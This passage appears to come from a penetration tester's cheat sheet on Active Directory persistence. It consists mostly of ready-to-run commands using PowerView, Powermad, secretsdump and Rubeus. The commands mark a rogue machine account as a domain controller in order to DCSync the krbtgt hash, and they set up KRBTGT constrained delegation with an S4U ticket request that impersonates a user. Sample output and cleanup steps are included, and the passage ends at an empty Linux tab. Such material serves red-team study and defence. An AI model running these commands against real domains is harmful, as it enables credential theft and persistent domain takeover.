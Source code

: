 2\. Set the `SERVER_TRUST_ACCOUNT` bit:

```
PV3 > Set-DomainObject FakeMachine -Set @{useraccountcontrol=8192}
PV3 > Get-DomainComputer FakeMachine | select name,primarygroupid,useraccountcontrol

name        primarygroupid   useraccountcontrol
----        --------------   ------------------
FakeMachine            516 SERVER_TRUST_ACCOUNT
```

3\. Perform DCSync:

```
$ secretsdump.py MEGACORP/'FakeMachine$:Passw0rd!'@DC01.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt'
```

4\. Clean up:

```
PV3 > Set-DomainObject FakeMachine -Set @{useraccountcontrol=4096}
Or
PM > Remove-MachineAccount -MachineAccount FakeMachine
```




## KRBTGT Constrained Delegation

- [https://skyblue.team/posts/delegate-krbtgt/](https://skyblue.team/posts/delegate-krbtgt/)

{% tabs %}
{% tab title="Windows" %}
```powershell
# create a new service account (or abuse an existing one)
PM > New-MachineAccount -Domain megacorp.local -DomainController DC01.megacorp.local -MachineAccount FakeMachine -Password $(ConvertTo-SecureString 'Passw0rd1!' -AsPlainText -Force) -Verbose
# set UAC to be 'WORKSTATION_TRUST_ACCOUNT | TRUSTED_TO_AUTH_FOR_DELEGATION'
PV3 > Set-DomainObject "CN=FakeMachine,CN=Computers,DC=megacorp,DC=local" -Set @{useraccountcontrol=16781312} -Verbose
# set the krbtgt SPN for delegation
PV3 > Set-DomainObject "CN=FakeMachine,CN=Computers,DC=megacorp,DC=local" -Set @{"msDS-AllowedToDelegateTo"=@("krbtgt/MEGACORP")} -Verbose
# request TGS via S4U (will act as a TGT of the impersonated user)
PS > .\Rubeus.exe s4u /domain:megacorp.net /user:FakeMachine$ /rc4:b2bdbe60565b677dfb133866722317fd /impersonateuser:snovvcrash /msdsspn:krbtgt/MEGACORP /ptt
# cleanup: remove the SPN for delegation
PV3 > Set-DomainObject "CN=FakeMachine,CN=Computers,DC=megacorp,DC=local" -Clear msDS-AllowedToDelegateTo -Verbose
# cleanup: back to UAC 'WORKSTATION_TRUST_ACCOUNT'
PV3 > Set-DomainObject "CN=FakeMachine,CN=Computers,DC=megacorp,DC=local" -Set @{useraccountcontrol=4096} -Verbose
```
{% endtab %}
{% tab title="Linux" %}
